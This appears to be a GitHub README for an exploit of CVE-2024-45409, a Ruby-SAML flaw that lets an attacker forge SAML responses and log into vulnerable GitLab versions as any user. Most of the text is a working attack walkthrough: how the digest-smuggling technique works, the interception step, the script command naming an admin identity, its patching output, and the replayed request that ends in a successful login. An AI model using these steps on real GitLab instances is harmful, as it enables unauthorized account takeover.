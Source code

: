# Ruby-SAML / GitLab Authentication Bypass (CVE-2024-45409) exploit

This script exploits the [CVE-2024-45409](https://nvd.nist.gov/vuln/detail/CVE-2024-45409) that allows an unauthenticated attacker with access to any signed SAML document issued by the IDP to forge a SAML Response/Assertion and gain access as any user on GitLab. 

All the following GitLab (CE/EE) versions are vulnerable:
* < 16.11.10
* 17.0.0 < 17.0.8
* 17.0.0 < 17.1.8
* 17.0.0 < 17.2.7
* 17.0.0 < 17.3.3

This exploit injects the `DigestValue` of the modified assertion into the `StatusDetail` element, allowing it to smuggle the XPath selector that will use this value instead of the one in the `SignedInfo` block.

## Requirements

* A valid SAML Response issued by the IDP

## Usage

```bash
apt install python3-lxml
```

Intercept the URL and Base64-encoded IDP SAML response first, then modify the XML content using the script.

```http
POST /users/auth/saml/callback HTTP/1.1
Host: gitlab.test.local
[...]

SAMLResponse=PHNhbWxwOlJlc3Bv[...]
```

```bash
$ python3 CVE-2024-45409.py -r response.url_base64 -n admin@test.local -d -e -o response_patched.url_base64
[+] Parse response
	Digest algorithm: sha256
	Canonicalization Method: http://www.w3.org/2001/10/xml-exc-c14n#
[+] Remove signature from response
[+] Patch assertion ID
[+] Patch assertion NameID
[+] Patch assertion conditions
[+] Move signature in assertion
[+] Patch response ID
[+] Insert malicious reference
[+] Clone signature reference
[+] Create status detail element
[+] Patch digest value
[+] Write patched file in response_patched.url_base64
```

Afterward, replace the parameter `SAMLResponse` value with the script output. If authentication is successful, you will be redirected to the GitLab homepage.
```http
HTTP/1.1 302 Found
Location: http://gitlab.test.local/
[...]

<html><body>You are being <a href="http://gitlab.test.local/">redirected</a>.</body></html>
```

## References
* https://about.gitlab.com/releases/2024/09/17/patch-release-gitlab-17-3-3-released/
* https://github.com/advisories/GHSA-jw9c-mfg7-9rx2
* https://blog.projectdiscovery.io/ruby-saml-gitlab-auth-bypass/
* https://nvd.nist.gov/vuln/detail/CVE-2024-45409
* https://www.cvedetails.com/cve/CVE-2024-45409/
